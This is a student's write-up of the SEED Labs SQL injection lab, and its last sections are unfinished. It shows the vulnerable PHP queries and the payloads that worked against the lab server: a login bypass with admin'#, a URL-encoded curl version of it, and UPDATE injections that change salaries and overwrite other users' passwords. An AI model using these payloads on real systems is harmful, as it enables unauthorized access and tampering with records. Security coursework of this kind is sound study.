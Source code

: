 # Week 8: SEED Labs – SQL Injection Attack Lab

## Task 1: Get Familiar with SQL Statements

> In this task we were asked to get familiar with the SQL commands by playing around with the provided database. 
> First in order to login we used the following command inside the MySQL container:
> ```
> mysql -u root -pdees  
> ```
> Then we used the following command to load the *sqllab_users** database:
>``` 
> use sqllab_users
>```
> We now can start to perform some queries like:
> ``` sql
> show tables
> ```
> ![show_tables](../docs/show_tables.jpeg)

> At the end of this tasks we were asked to print the profile information of the employee Alice, we achieved this by running the folowing command:
> ``` sql
> select * from credentials where name = 'Alice'; 
> ```
> ![alice](../docs/alice.jpeg)

## Task 2: SQL Injection Attack on SELECT Statement

To complete this task we needed to consider the following query that is used in the user authentication procedure: 
```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

### Task 2.1: SQL Injection Attack from webpage.

> In this subtask we were asked to login as the administrator from the login page, knowing that the administrator username is **admin**. We needed to find what to input in the username and password fields in the login page.
>
> We can explore the following line's vulnerability to manipulate the authentication:
> ```php
> WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
>```
> In the *username* field, we can insert ```admin'#```. This input will firstly close the username string and then comment the rest of the query up until the ```";```. Allowing us to authenticate as the admin without providing a password.  
> The final query becomes this:
> ![query](../docs/query.png)
> 
> After getting access as the administrator we could check the emmployees informations:
> ![admin](../docs/admin_auth.jpeg)

### Task 2.2: SQL Injection Attack from command line

> In this subtask we needed to accomplish the same goal as the previous subtask, but without using the webpage.  
> The tricky part of this subtask is that when sending the HTTP request, we need to encode the special characters we add, or they're gonna modify the meaning of the request.  
> We ended executing the following command and got access as the administrator on the website:
> ```bash
> curl ’www.seed-server.com/unsafe_home.php?username=admin%27%23'
>```
> The **27** and **23** correspond to the ascii code in hexadecimal of the single quote and cardinal sign respectivly.
>
> ![sql_injection](../docs/sql_injection.jpeg)

### Task 2.3: Append a new SQL statement

## Task 3: SQL Injection Attack on UPDATE Statement

In this task we need to consider the following query that's used to update the user information:
```php
$sql = "UPDATE credential SET
   nickname=’$input_nickname’,
   email=’$input_email’,
   address=’$input_address’,
   Password=’$hashed_pwd’,
   PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
```

### Task 3.1: Modify your own salary  

> In this task we were asked to change Alice's salary. First of all we loged in as Alice and went to the edit profile page. In this page the vulnerable query presented above is used, so we needed to take advantage of it.  
>
> To accomplish the task we inputed the following string in the nickname field: 
> ```sql
> Alice',salary='100000
> ```
> 

task 3.2  
',salary='1' where name = 'Bobby';#

task 3.3

```
',nickname = password where  name = 'Alice';#
```

```
',password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220' where name = 'Boby';#
```

